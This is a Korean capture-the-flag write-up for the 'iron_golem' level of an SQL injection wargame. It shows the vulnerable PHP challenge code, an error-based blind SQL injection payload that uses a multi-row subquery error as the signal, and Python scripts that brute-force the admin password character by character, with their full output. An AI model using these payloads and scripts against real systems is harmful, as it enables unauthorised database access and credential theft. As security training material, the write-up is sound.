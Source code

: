 # iron_golem

## 1. Code
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit(mysqli_error($db));
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `sleep`, `benchmark`를 필터링한다.
- 쿼리만을 보여주고, id값을 보여주지 않는다.
- 에러 발생시, 에러 화면을 띄워준다.
&rarr; 기존과 동일한 blind-sqli지만, "Hello admin"이 아닌 에러화면을 통해 조건문을 검증해야 한다.

## 3. Solution
먼저 공격 쿼리를 설계해 보았다.   

참, 거짓을 에러 화면으로 구분하는 것이 목적이다.   
`if`문을 포함한 서브 쿼리를 이용하여 짜보았다.   
구성은 다음과 같다.   

```sql
SELECT IF(조건문,참,거짓(에러))
```

변수명 | 값
---|---
`pw` | 1234' or (SELECT IF(`조건문`,1,(SELECT 1 UNION SELECT 2)))#   



#### a. 길이 구하기
>    `length`함수를 이용하여 길이를 구하였다.
```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,101):
    url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php?\
            pw=1234' or (SELECT IF(length(pw)=%d,1,(SELECT 1 UNION SELECT 2)))%%23" % i
    res = requests.get(url, cookies=cookie)

    if not "Subquery returns more than 1 row" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```   
>    실행 결과는 다음과 같다.
```
Length of pw : 32
```   


#### b. 값 구하기
>    `ascii`와 `substr`함수를 이용하였다.
    `a. 길이 구하기`의 코드 뒤에 붙여 주었다.
```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,101):
    url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php?\
            pw=1234' or (SELECT IF(length(pw)=%d,1,(SELECT 1 UNION SELECT 2)))%%23" % i
    res = requests.get(url, cookies=cookie)
    
    if not "Subquery returns more than 1 row" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break

pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php?\
                pw=1234' or (SELECT IF(ascii(substr(pw,%d,1))=%d,1,(SELECT 1 UNION SELECT 2)))%%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if not "Subquery returns more than 1 row" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```   
>    실행 결과는 다음과 같다.
```
Length of pw : 32
pw(1) : 0
pw(2) : 06
pw(3) : 06b
pw(4) : 06b5
pw(5) : 06b5a
pw(6) : 06b5a6
pw(7) : 06b5a6c
pw(8) : 06b5a6c1
pw(9) : 06b5a6c16
pw(10) : 06b5a6c16e
pw(11) : 06b5a6c16e8
pw(12) : 06b5a6c16e88
pw(13) : 06b5a6c16e883
pw(14) : 06b5a6c16e8830
pw(15) : 06b5a6c16e88304
pw(16) : 06b5a6c16e883047
pw(17) : 06b5a6c16e8830475
pw(18) : 06b5a6c16e8830475f
pw(19) : 06b5a6c16e8830475f9
pw(20) : 06b5a6c16e8830475f98
pw(21) : 06b5a6c16e8830475f983
pw(22) : 06b5a6c16e8830475f983c
pw(23) : 06b5a6c16e8830475f983cc
pw(24) : 06b5a6c16e8830475f983cc3
pw(25) : 06b5a6c16e8830475f983cc3a
pw(26) : 06b5a6c16e8830475f983cc3a8
pw(27) : 06b5a6c16e8830475f983cc3a82
pw(28) : 06b5a6c16e8830475f983cc3a825
pw(29) : 06b5a6c16e8830475f983cc3a825e
pw(30) : 06b5a6c16e8830475f983cc3a825ee
pw(31) : 06b5a6c16e8830475f983cc3a825ee9
pw(32) : 06b5a6c16e8830475f983cc3a825ee9a
```   

나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.
변수명 | 값
---|---
`pw` | 06b5a6c16e8830475f983cc3a825ee9a